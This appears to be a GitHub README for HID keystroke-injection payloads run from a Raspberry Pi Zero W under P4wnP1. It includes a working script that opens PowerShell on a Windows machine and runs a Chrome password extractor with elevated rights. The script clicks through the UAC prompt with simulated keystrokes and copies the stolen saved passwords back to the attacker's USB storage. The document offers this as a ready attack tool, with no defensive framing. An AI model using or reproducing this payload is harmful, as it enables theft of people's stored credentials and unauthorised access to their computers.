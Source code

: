 # HID-Payload-Injecting-Tool-Scripts
# HID Payload Injecting Tool Scripts

This project is a collection of HID (Human Interface Device) payload scripts designed to automate post-exploitation tasks using a Raspberry Pi Zero W running the **P4wnP1 A.L.O.A.** operating system.

## ⚙️ Project Overview

Using P4wnP1, this tool turns a Raspberry Pi Zero W into a HID attack device capable of injecting pre-defined keystrokes into a target machine. The main script provided in this repo focuses on **extracting saved passwords from Google Chrome on Windows** and saving the results back to the attacker's USB mass storage.

---

## 🛠️ Setup Instructions

### 1. Hardware & OS

- **Hardware:** Raspberry Pi Zero W
- **OS:** [P4wnP1 A.L.O.A.](https://github.com/mame82/P4wnP1_aloa)

---

### 2. Requirements

- P4wnP1 setup with HID and USB Mass Storage modules enabled
- `allpy.exe` file (Chrome Password Extractor) from [Z3nithn/Chrome-Password-Extractor](https://github.com/Z3nithn/Chrome-Password-Extractor)
- HID script as described below
- Mass storage setup containing:
  - `allpy.exe`

---

## 💡 How It Works

Once the Raspberry Pi is plugged into a Windows machine:

1. It emulates a keyboard and opens PowerShell using `Win + R`.
2. It detects the USB drive and copies `allpy.exe` from it to the Desktop.
3. Runs `allpy.exe` with administrative privileges.
4. Handles UAC prompt using keystroke automation.
5. Waits for the credentials to be extracted and saved to `output.csv`.
6. Copies the result back to the USB drive (mass storage).

---

## 📜 HID Script Snippet (Example)

```javascript
layout('us');
typingSpeed(0, 0);        

press("GUI r");           
delay(1000);              
type("powershell\n");     
delay(2000);              

type('$usbDrive = (Get-WmiObject Win32_LogicalDisk | Where-Object { $_.DriveType -eq 2 } | Select-Object -ExpandProperty DeviceID);\n');
delay(1000);              

type('if ($usbDrive -ne $null) {\n');  
type('  $usbDrivePath = $usbDrive + "\\";\n');
type('  Copy-Item "$usbDrivePath\\allpy.exe" -Destination "$env:USERPROFILE\\Desktop\\Chrome Password.exe" -Force;\n'); 
type('  Start-Process -FilePath "$env:USERPROFILE\\Desktop\\Chrome Password.exe" -WorkingDirectory "$env:USERPROFILE\\Desktop" -Verb RunAs;\n'); 
type('}\n');

delay(15000);
press("TAB");
press("TAB");
press("ENTER");

delay(30000);
press("TAB");
press("TAB");
press("ENTER");

delay(1000);
type('if (Test-Path "$env:USERPROFILE\\Desktop\\output.csv") {\n');
type('  Copy-Item "$env:USERPROFILE\\Desktop\\output.csv" -Destination "$usbDrivePath\\output.csv" -Force;\n');
type('} else {\n');
type('  Write-Host "Error: output.csv not found!";\n');
type('}\n');
